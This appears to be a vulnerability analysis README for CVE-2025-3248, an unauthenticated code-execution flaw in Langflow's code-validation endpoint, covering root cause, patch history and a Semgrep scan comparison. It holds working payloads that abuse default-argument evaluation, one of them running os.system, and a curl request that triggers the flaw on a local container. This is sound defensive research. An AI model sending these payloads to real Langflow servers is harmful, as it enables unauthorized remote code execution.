

# CVE-2025-3248 — Langflow unauthenticated RCE

`class: exec`  ·  **CVSS 9.8**  ·  Affected **≤ 1.2.0**  ·  Fixed **1.3.0** (auth) + **GHSA-2wcq-pvw2-xh7v** (sink removed)  ·  **Reproduced** ✅

> Unauthenticated remote code execution: a POST body reaches `exec()` of compiled
> attacker code with no authentication and no sandbox.

## Five-line summary

- **Root cause** — user-supplied code is compiled and `exec`'d during "validation", with no sandbox.
- **Source → Sink** — `POST /api/v1/validate/code` body → `validate_code(code)` → `exec(compile(ast.Module([def])))`.
- **Broken mediation** — the route has no `CurrentActiveUser` dependency (no authN/authZ) *and* the validator executes instead of only compiling.
- **What the patch fixed** — 1.3.0 added the auth dependency + a policy gate; GHSA-2wcq-pvw2-xh7v made `validate_code` **compile-only** and switched imports to `find_spec` (locate, never execute).
- **What's left** — reading the *first* patch alone misattributes the fix as auth-only; the `exec` sink survived until the second commit. The diff, not the CVE text, is the answer key.

## Dataflow

One directed path carries the attacker's `code` string from the unauthenticated HTTP edge to
`exec()`. Every other `exec()` in the same file is on a separate, auth-gated island the endpoint
never calls — drawn detached so the real path isn't confused with look-alike sinks.



Editable source: [`cve-2025-3248-dataflow.excalidraw`](cve-2025-3248-dataflow.excalidraw) (open at excalidraw.com).

## Why executing a *definition* is enough

`exec()`-ing a `def` evaluates its **decorators and default-argument expressions at definition
time** — the body never runs and the function is never called:

```python
def x(a = open('/tmp/cve-2025-3248','w').write('friends')): pass   # file written on exec
def x(a = __import__('os').system('id')): pass                      # command executed on exec
```

## Reproduction

Pinned, local, isolated — never against a public instance.

```bash
# vulnerable image, bound to loopback only
docker run -d --name lf120 -p 127.0.0.1:7860:7860 langflowai/langflow:1.2.0

# define-time exec via default-argument evaluation (arbitrary file write primitive)
curl -s http://127.0.0.1:7860/api/v1/validate/code \
  -H 'Content-Type: application/json' \
  -d '{"code":"def x(a=open(\"/tmp/cve-2025-3248\",\"w\").write(\"friends\")): pass"}'

docker exec lf120 cat /tmp/cve-2025-3248    # -> friends   (no auth sent)
```

Observed: file written inside the container with **no credentials** on the request — confirming
the unauthenticated path fires the sink.

## Static verification (Semgrep differential)

The custom taint rule ([`cve-2025-3248.yaml`](cve-2025-3248.yaml)) was run against the vulnerable
and patched trees. The two CVE-discriminator rules go **1 → 0**, matching the patch exactly:

| rule | 1.2.0 (vulnerable) | 1.13.1 (patched) |
|------|:---:|:---:|
| `code-to-exec` (taint: code → exec/import) | 8 | 5\* |
| `exec-sink` (exec() inside `validate_code`) | **1** | **0** |
| `unauth-endpoint` (handler w/o `CurrentActiveUser`) | **1** | **0** |

\* The 5 residual taint hits in 1.13.1 are inside authenticated code-runner helpers **not reachable
from the unauthenticated endpoint** — the auth-gated island in the diagram, not the validation path.

Raw output: [`scan-1.2.0.txt`](scan-1.2.0.txt) · [`scan-1.13.1.txt`](scan-1.13.1.txt) · [`scan-1.2.0.findings.json`](scan-1.2.0.findings.json)

## Full analysis

[`ANALYSIS.md`](ANALYSIS.md) — router prefix composition, the exact taint path with line numbers,
the import side-effect secondary route, and the patch broken out by commit.

## References

- Advisory: GHSA-2wcq-pvw2-xh7v · NVD: CVE-2025-3248 (CVSS 9.8)
- Fix: auth dependency added in 1.3.0; `validate_code` made compile-only + `find_spec` imports
